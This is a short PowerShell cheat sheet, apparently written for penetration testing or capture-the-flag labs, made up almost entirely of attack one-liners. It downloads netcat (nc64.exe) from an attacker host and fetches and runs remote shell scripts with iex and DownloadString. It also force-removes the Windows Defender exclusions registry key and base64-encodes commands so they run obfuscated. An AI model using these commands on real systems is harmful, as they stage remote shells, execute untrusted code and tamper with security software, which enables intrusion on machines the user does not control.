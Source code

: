 ## Download file from http:

```
Invoke-WebRequest -Uri "http://10.10.14.25/nc64.exe" -OutFile ".\"  #This sometimes works

Invoke-WebRequest -Uri "http://10.10.14.25/nc64.exe" -OutFile ".\nc64.exe" #Specify Name if above doesn't work

**Also for some reason powershell only likes "" for quotes not ''**
```

## Download and run powershell script:

```
iex(New-Object Net.WebClient).downloadstring('http://10.10.10.10/shell.ps1')

cmd /c powershell iex(new-object net.webclient).downloadstring('http://10.10.14.31/a.ps1')
```

## Recursive Copy

```
Copy-Item -Path $sourceRoot -Recurse -Destination $destinationRoot 
```

## Get Registry Values 

```
Get-ChildItem -Path 'HKLM:\SOFTWARE\Microsoft\Windows Defender'
```

## Remove Registry Values

```
Remove-Item -Force -Path 'HKLM:\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths'
```

## Convert to encoded within linux for Powershell:

```
echo "iex(command)" | iconv --to-code UTF-16LE | base64 -w 0
```

## Convert file to base64:

```
$fc = Get-Content "File"
$fe = [System.Text.Encoding]::UTF8.GetBytes($fc)
[System.Convert]::ToBase64String($fe)

```
